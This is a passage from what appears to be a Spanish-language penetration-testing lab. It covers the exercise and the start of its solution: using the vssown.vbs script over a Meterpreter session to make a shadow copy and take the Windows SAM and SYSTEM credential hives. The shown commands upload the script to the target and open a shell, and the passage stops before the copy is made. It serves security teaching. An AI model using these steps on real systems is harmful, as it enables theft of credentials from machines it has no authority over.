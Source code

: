 - Link de descarga del archivo `vssown.vbs`: [Descargar archivo](/assets/files/vssown.vbs)

- Describe brevemente cómo utilizarías esta copia de sombra para acceder a los archivos **SAM** y **SYSTEM**. Enumera los comandos necesarios en Meterpreter o la shell de Windows para:

  - Crear la copia de sombra.
  - Copiar los archivos SAM y SYSTEM a un directorio accesible.
  - Descargar los archivos a tu máquina atacante.

- **Tip**: Utiliza el enlace de descarga proporcionado para obtener el script `vssown.vbs` e infíltralo en la máquina víctima usando Meterpreter.

- **Tip adicional**: Después de ejecutar el script `vssown.vbs`, toma nota de la ubicación de la **copia de volumen de sombra** que se crea (ruta similar a `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX`).

<hr style="border: none; height: 10px; background-color: #003b00;" />

## <font color="#87CEEB">Solución</font>

<hr style="border: none; height: 10px; background-color: #003b00;" />

- **Aquí viene una parte muy interesante. Muchos alumnos han subido el archivo `vssown.vbs` al target utilizando el servicio ssh (vía comando `scp`). Sin embargo, parte de la resolución de esta parte del laboratorio, era investigar cómo podían subir aquel archivo usando la sesión meterpreter. Recordar que ya tienen una conexión establecida entre el atacante y el target con el meterpreter. Por lo tanto, no es necesario hacer uso de otro tipo de conexión.**

- Se debió haber utilizado el siguiente comando: 

  ```bash
  meterpreter > upload /home/user/Downloads/vssown.vbs C:\\Users\\vagrant\\vssown.vbs
  [*] Uploading  : /home/user/Downloads/vssown.vbs -> C:\Users\vagrant\vssown.vbs
  [*] Uploaded 8.54 KiB of 8.54 KiB (100.0%): /home/user/Downloads/vssown.vbs -> C:\Users\vagrant\vssown.vbs
  [*] Completed  : /home/user/Downloads/vssown.vbs -> C:\Users\vagrant\vssown.vbs
  ```
- La ruta destino es indiferente pues la sesión meterpreter ya concede privilegios necesarios para correr cualquier script.

- A continuación, toda la secuencia para realizar la extracción de los archivos `SAM` y `SYSTEM` usando la sesión meterpreter.

- Primero, invocamos una sesión `shell`:

```bash
meterpreter > shell
Process 5236 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

- Por facilidad, vamos a la ruta donde copiamos el archivo `vssown.vbs`:

```bash
C:\Windows\system32>cd C:\Users\vagrant\         
cd C:\Users\vagrant\

C:\Users\vagrant>ls
ls
AppData
Application Data
Contacts
Cookies
Desktop
Documents
Downloads
```